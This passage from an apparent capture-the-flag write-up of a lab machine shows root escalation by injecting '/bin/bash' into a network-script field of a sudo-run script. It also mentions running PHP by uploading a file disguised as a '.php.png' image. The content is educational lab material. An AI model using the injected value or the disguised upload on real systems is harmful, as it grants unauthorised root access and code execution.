 
### Shell

What I’ve stumbled upon is an error reported on
[seclists](https://seclists.org/fulldisclosure/2019/Apr/24) in April. Anything
after a space in a value in a network script where the format is
`VARIABLE=value` will be executed. The [response to that
disclosure](https://seclists.org/fulldisclosure/2019/Apr/27) was that anyone
who can write that file is basically root anyway, so it doesn’t matter.

The regex check at the start of the script prevents me from doing anything too
complicated, but it doesn’t prevent me from getting a simple shell:

    
    
    [guly@networked ~]$ sudo /usr/local/sbin/changename.sh
    interface NAME:
    0xdf
    interface PROXY_METHOD:
    a /bin/bash
    interface BROWSER_ONLY:
    b
    interface BOOTPROTO:
    c
    [root@networked network-scripts]# id 
    uid=0(root) gid=0(root) groups=0(root)
    

I can now grab `root.txt`:

    
    
    [root@networked ~]# cat root.txt 
    0a8ecda8...
    

## Beyond Root - PHP Misconfiguration

In gaining an initial foothold, I uploaded a file `10_10_14_5.php.png`, and
the webserver treated it as PHP code and ran it. I shared [this
link](https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-
AddHandler) earlier. I wanted to look at the Apache configuration to see how
it compared to that in the article.

The Apache config files are stored in`/etc/httpd/`. The main config is
`/etc/httpd/conf/httpd.conf`, but it’s last lines are:

    
    
    # Supplemental configuration
    #
    # Load config files in the "/etc/httpd/conf.d" directory, if any.
    IncludeOptional conf.d/*.conf
    